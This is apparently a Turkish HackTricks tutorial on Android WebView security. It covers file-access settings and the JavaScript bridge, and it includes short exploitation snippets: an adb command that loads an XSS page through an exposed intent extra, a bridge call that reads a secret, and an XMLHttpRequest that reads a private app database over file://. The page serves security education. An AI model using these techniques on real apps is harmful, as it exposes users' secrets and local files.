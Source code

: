 # Webview Saldırıları

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## WebView Yapılandırmaları ve Güvenlik Rehberi

### WebView Açıklarının Genel Görünümü

Android geliştirmesinin kritik bir yönü, WebView'ların doğru bir şekilde yönetilmesidir. Bu rehber, WebView kullanımına ilişkin riskleri azaltmak için ana yapılandırmaları ve güvenlik uygulamalarını vurgulamaktadır.

![WebView Örneği](<../../.gitbook/assets/image (1190).png>)

### **WebView'larda Dosya Erişimi**

Varsayılan olarak, WebView'lar dosya erişimine izin verir. Bu işlevsellik, Android API seviyesi 3 (Cupcake 1.5) itibarıyla mevcut olan `setAllowFileAccess()` yöntemiyle kontrol edilir. **android.permission.READ\_EXTERNAL\_STORAGE** iznine sahip uygulamalar, dosya URL şeması (`file://path/to/file`) kullanarak harici depolamadan dosyaları okuyabilir.

#### **Kaldırılan Özellikler: Evrensel ve URL'lerden Dosya Erişimi**

* **Dosya URL'lerinden Evrensel Erişim**: Bu kaldırılan özellik, dosya URL'lerinden çapraz kaynak isteklerine izin veriyordu ve potansiyel XSS saldırıları nedeniyle önemli bir güvenlik riski oluşturuyordu. Varsayılan ayar, Android Jelly Bean ve daha yeni sürümleri hedefleyen uygulamalar için devre dışıdır (`false`).
* Bu ayarı kontrol etmek için `getAllowUniversalAccessFromFileURLs()` kullanın.
* Bu ayarı değiştirmek için `setAllowUniversalAccessFromFileURLs(boolean)` kullanın.
* **Dosya URL'lerinden Dosya Erişimi**: Bu özellik de kaldırılmıştır ve diğer dosya şeması URL'lerinden içeriğe erişimi kontrol ediyordu. Evrensel erişimde olduğu gibi, varsayılan ayarı güvenliği artırmak için devre dışıdır.
* Kontrol etmek için `getAllowFileAccessFromFileURLs()` ve ayarlamak için `setAllowFileAccessFromFileURLs(boolean)` kullanın.

#### **Güvenli Dosya Yükleme**

Varlıklara ve kaynaklara erişirken dosya sistemi erişimini devre dışı bırakmak için `setAllowFileAccess()` yöntemi kullanılır. Android R ve üzeri için varsayılan ayar `false`'dır.

* `getAllowFileAccess()` ile kontrol edin.
* `setAllowFileAccess(boolean)` ile etkinleştirin veya devre dışı bırakın.

#### **WebViewAssetLoader**

**WebViewAssetLoader** sınıfı, yerel dosyaları yüklemek için modern bir yaklaşımdır. Yerel varlıklara ve kaynaklara erişmek için http(s) URL'lerini kullanır ve Aynı Kaynak politikası ile uyumlu olarak CORS yönetimini kolaylaştırır.

### loadUrl

Bu, bir webview'da rastgele URL'leri yüklemek için kullanılan yaygın bir işlevdir:
```java
webview.loadUrl("<url here>")
```
Tabii ki, potansiyel bir saldırganın bir uygulamanın yükleyeceği **URL'yi** asla kontrol edememesi gerekir.

### **JavaScript ve Intent Şeması Yönetimi**

* **JavaScript**: WebView'larda varsayılan olarak devre dışıdır, `setJavaScriptEnabled()` ile etkinleştirilebilir. JavaScript'i uygun korumalar olmadan etkinleştirmenin güvenlik açıkları oluşturabileceği için dikkatli olunmalıdır.
* **Intent Şeması**: WebView'lar `intent` şemasını işleyebilir, dikkatli yönetilmezse istismar durumlarına yol açabilir. Bir örnek güvenlik açığı, çapraz site betikleme (XSS) saldırılarını gerçekleştirmek için istismar edilebilecek "support\_url" adlı bir WebView parametresinin açığa çıkmasıydı.

![Vulnerable WebView](<../../.gitbook/assets/image (1191).png>)

adb kullanarak istismar örneği:

{% code overflow="wrap" %}
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
{% endcode %}

### Javascript Köprüsü

Android, **JavaScript**'in bir WebView içinde **yerel Android uygulama fonksiyonlarını** çağırmasına olanak tanıyan bir özellik sunar. Bu, JavaScript'i yerel Android işlevleriyle entegre eden `addJavascriptInterface` yönteminin kullanılmasıyla gerçekleştirilir ve buna _WebView JavaScript köprüsü_ denir. Dikkatli olunması önerilir çünkü bu yöntem, WebView içindeki tüm sayaların kayıtlı JavaScript Arayüz nesnesine erişmesine izin verir ve bu arayüzler aracılığıyla hassas bilgilerin ifşa edilmesi durumunda bir güvenlik riski oluşturur.

* **Aşırı dikkat gereklidir** çünkü 4.2'nin altındaki Android sürümlerini hedefleyen uygulamalar, kötü niyetli JavaScript aracılığıyla uzaktan kod yürütme açığına sahip olabilir.

#### JavaScript Köprüsü Uygulaması

* **JavaScript arayüzleri**, bir sınıf yönteminin JavaScript'e açıldığı örneklerde olduğu gibi, yerel kodla etkileşimde bulunabilir:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
* JavaScript Köprüsü, WebView'a bir arayüz ekleyerek etkinleştirilir:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
* JavaScript aracılığıyla potansiyel istismar, örneğin, bir XSS saldırısı yoluyla, açığa çıkarılmış Java yöntemlerinin çağrılmasını sağlar:
```html
<script>alert(javascriptBridge.getSecret());</script>
```
* Riskleri azaltmak için, **JavaScript köprü kullanımını** APK ile gönderilen kodla sınırlayın ve uzaktan kaynaklardan JavaScript yüklenmesini engelleyin. Eski cihazlar için minimum API seviyesini 17 olarak ayarlayın.

### Yansıma Tabanlı Uzaktan Kod Çalıştırma (RCE)

* Belirli bir yükü çalıştırarak RCE elde etmeyi sağlayan belgelenmiş bir yöntem vardır. Ancak, `@JavascriptInterface` notasyonu yetkisiz yöntem erişimini engelleyerek saldırı yüzeyini sınırlar.

### Uzaktan Hata Ayıklama

* **Uzaktan hata ayıklama**, **Chrome Geliştirici Araçları** ile mümkündür ve WebView içeriğinde etkileşim ve keyfi JavaScript çalıştırma imkanı sağlar.

#### Uzaktan Hata Ayıklamayı Etkinleştirme

* Bir uygulama içindeki tüm WebView'ler için uzaktan hata ayıklama şu şekilde etkinleştirilebilir:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
* Uygulamanın hata ayıklanabilir durumuna bağlı olarak hata ayıklamayı koşullu olarak etkinleştirmek için:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## Rastgele dosyaları dışarı sızdırma

* XMLHttpRequest kullanarak rastgele dosyaların dışarı sızdırılmasını gösterir:
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## Referanslar

* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
* [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
* [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
